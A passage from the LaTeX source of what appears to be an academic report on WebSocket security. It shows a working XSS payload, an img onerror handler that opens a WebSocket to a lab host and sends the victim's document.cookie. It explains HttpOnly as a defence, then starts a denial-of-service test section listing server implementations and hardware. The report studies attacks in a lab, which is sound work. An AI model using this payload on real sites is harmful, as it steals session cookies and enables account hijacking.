 	\begin{lstlisting}
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8090/'); badws.onopen=function(event){ var tmp=document.cookie;badws.send(tmp);}">
	\end{lstlisting}

	
	The malevolent WebSocket code is equal to the other just seen before; it simply receives the cookie and stores it.\newline
	This approach is better because it is silent; the previous one was easy to notice by a user simply because the page in front of him changed.\newline
	Note: this is a special because the cookie used by PHP via JavaScript, there are case where a Cookie cannot be retrieved by \texttt{document.cookie} and this does not allow an attacker to steal precious data from a client.
	In order to avoid the retrieval of a cookie by JavaScript, it must be marked with \texttt{HttpOnly} flag.
	Remember that even if you store data in the \texttt{SessionStorage} you are not safe at all because an attacker could access it.
	With these two examples is clear how data validation is important and must be performed in order to avoid serious attacks.
	
	\subsection{Denial of Service}
	There are various implementation of server side WebSocket and we will see which one is vulnerable and which is not.\\
	These are the implementations taken under examination:
	\begin{itemize}
		\item Java  - \url{https://github.com/TooTallNate/Java-WebSocket}
		\item Node.js - \url{https://www.npmjs.com/package/websocket}
	\end{itemize}

	Our setup to simulate a DoS is the following: one server, one client which performs the attack, another client which test the availability of the service.\\
	The server machine has the following technical specifications:
	\begin{itemize}
		\item OS: Windows 10 Pro 64-bit
		\item Processor: Intel Core i5 3230M 2.60Ghz (2 Core, 4 Thread)
		\item Memory: 4GB RAM DDR3 798Mhz
		\item Network adapter: Broadcom 802.11n Network Adapter - IEEE 802.11 a/b/g/n
	\end{itemize}


